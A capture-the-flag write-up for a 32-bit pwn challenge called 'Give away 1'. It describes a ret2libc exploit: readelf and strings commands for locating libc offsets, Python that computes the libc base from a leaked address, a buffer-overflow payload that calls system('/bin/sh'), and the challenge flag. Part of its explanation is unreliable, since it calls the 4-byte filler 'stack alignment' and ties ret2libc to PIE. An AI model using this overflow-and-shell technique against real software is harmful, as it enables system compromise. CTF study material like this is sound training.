




# Give away 1 writeup

## Content

This writeup is about PWN challenge

	* libc-2.27.so: shared library (given)
	* give_away_1: challenge binary (given)
	* exploit.py: Full exploit

## Binary analysis

1. Quick check of the binary on ida gives

* main



* vuln 




2. Checksec shows that PIE and NX are enabled so we can go for ret2libc attack. 



## Exploit

This kinda of classic exploits so 

1. Step I: 

* Extract system and /bin/sh offset from libc binary

```shell
readelf -s  libc-2.27.so | grep system
strings -a -t x libc-2.27.so | grep /bin/sh
```

* Compute libc base address 

```python
out = p.recvline().strip().split(' ')
sysaddr = int(out[2],16)
libc_base = sysaddr - SYSTEM
```

2. Step II:

The argument for system ("/bin/sh") should be passed in the stack because `__cdecl` is  the calling convention of libc functions.



```python
payload = "A" * 36 + p32(sysaddr) + "B"*4  + p32( BIN_SH_final)   
p.sendline(payload)
```

Basically we add a dummy 4 bytes("B" * 4) to the payload to avoid stack aligment issues as the stack should be 16-bytes aligned.

## Notes
* The Full exploit is in exploit.py
* Flag: shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}